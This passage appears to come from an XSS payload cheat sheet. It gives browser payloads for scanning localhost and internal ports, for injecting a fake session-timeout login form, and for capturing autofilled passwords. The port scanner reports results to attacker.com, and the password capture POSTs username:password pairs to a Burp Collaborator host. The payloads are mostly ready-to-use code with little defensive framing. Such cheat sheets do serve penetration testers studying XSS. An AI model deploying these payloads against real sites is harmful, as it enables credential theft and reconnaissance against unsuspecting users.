 ```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

### Port Scanner (websockets)

```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
    var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
    s.start = performance.now();
    s.port = ports[i];
    s.onerror = function() {
        console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
    };
    s.onopen = function() {
        console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
    };
}
```

_Short times indicate a responding port_ _Longer times indicate no response._

Review the list of ports banned in Chrome [**here**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net\_util.cc) and in Firefox [**here**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist).

### Box to ask for credentials

```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```

### Auto-fill passwords capture

```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

When any data is introduced in the password field, the username and password is sent to the attackers server, even if the client selects a saved password and don't write anything the credentials will be ex-filtrated.
